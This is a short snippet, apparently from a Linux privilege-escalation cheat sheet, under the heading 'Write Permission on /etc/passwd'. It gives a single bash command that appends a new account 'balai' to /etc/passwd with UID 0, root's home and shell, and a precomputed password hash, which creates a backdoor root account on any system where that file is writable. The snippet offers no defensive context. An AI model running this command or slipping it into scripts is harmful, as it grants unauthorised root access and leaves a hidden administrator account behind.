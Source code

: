 **Write Permission on /etc/passwd**
```bash
# Craete a new account name balai with passwd balai
echo 'balai:$1$MitD/YG8$XwmEazlonmgCt5riXXoCh0:0:0:root:/root:/bin/bash' >> /etc/passwd

```